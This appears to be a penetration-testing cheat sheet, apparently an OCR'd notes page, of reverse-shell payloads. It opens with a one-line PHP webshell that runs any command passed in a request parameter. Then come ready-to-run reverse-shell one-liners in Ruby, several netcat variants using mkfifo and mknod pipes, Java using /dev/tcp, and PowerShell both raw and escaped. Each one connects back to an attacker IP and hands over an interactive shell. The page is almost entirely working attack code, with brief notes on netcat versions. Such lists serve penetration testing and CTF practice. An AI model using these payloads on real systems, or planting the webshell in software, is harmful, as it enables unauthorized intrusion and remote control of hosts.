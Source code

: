 Webshell

    <?php system($_REQUEST['cmd']); ?>

# Ruby
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

    nc -e /bin/sh 10.0.0.1 1234
    nc -e /bin/bash 10.0.0.1 4242
    nc -c bash 10.0.0.1 4242
    /bin/sh | nc 10.0.0.1 80
    rm -f /tmp/p; mknod /tmp/p p && nc 10.0.0.1 4444 0/tmp/p
    
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
    
 OpenBSD Netcat

    mkfifo /tmp/lol;nc 10.10.14.17 8081 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 8081 >/tmp/f

# Java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

# powershell

    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    # ESCAPED
    $client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.17\",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    